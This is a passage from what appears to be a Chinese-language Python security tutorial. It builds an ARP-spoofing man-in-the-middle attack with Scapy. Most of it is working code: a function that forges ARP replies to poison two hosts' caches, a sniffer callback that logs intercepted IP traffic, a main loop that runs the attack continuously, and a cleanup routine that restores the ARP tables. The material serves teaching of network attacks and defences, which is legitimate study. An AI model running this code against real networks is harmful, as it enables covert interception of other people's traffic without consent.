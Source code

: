 ```py
def resetARP(destination_ip, source_ip, interface):
destinationMAC = getMAC(destination_ip, interface)
sourceMAC = getMAC(source_ip, interface)    
send(ARP(op=2, pdst=source_ip, psrc=destination_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=destinationMAC, retry=7))
send(ARP(op=2, pdst=destination_ip, psrc=source_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=sourceMAC, retry=7))
setIPForwarding(False)  
```

在这个函数中，我们首先使用我们编写的`getMAC()`函数获取源和目的地的 MAC 地址。然后，我们将发送请求到源，就好像是来自目的地。此外，我们将发送请求到目的地，就好像是来自源。最后，我们将使用我们编写的`setIPForwarding()`函数重置 IP 转发

1.  现在我们将进行实际攻击。为此，我们将编写一个函数：

```py
def mitm(destination_ip, destinationMAC, source_ip, sourceMAC):
    arp_dest_to_src = ARP(op=2, pdst=destination_ip, psrc=source_ip, hwdst=destinationMAC)
    arp_src_to_dest = ARP(op=2, pdst=source_ip, psrc=destination_ip, hwdst=sourceMAC)
    send(arp_dest_to_src)
    send(arp_src_to_dest)

```

这将把数据包发送到源和目的地，指示我们的接口是源的目的地和目的地的源

1.  接下来，我们必须设置一个回调函数来解析从接口嗅探到的数据包：

```py
def callBackParser(packet):
  if IP in packet:
      source_ip = packet[IP].src
      destination_ip = packet[IP].dst
      print("From : " + str(source_ip) + " to -> " + str(destination_ip))  
```

1.  现在我们将定义`main()`函数来调用攻击：

```py
def main():
      setIPForwarding(True)    
      try:
          destinationMAC = getMAC(destination_ip, interface)
      except Exception as e:
          setIPForwarding(False)
          print(e)
          sys.exit(1)  
      try:
          sourceMAC = getMAC(source_ip, interface)
      except Exception as e:
          setIPForwarding(False)
          print(e)
          sys.exit(1) 
       while True:
          try:
              mitm(destination_ip, destinationMAC, source_ip, sourceMAC)
              sniff(iface=interface, prn=callBackParser,count=10)
           except KeyboardInterrupt:
              resetARP(destination_ip, source_ip, interface)
              break
       sys.exit(1)
   main()  
```

这将创建一个无限循环来设置攻击并嗅探数据包。
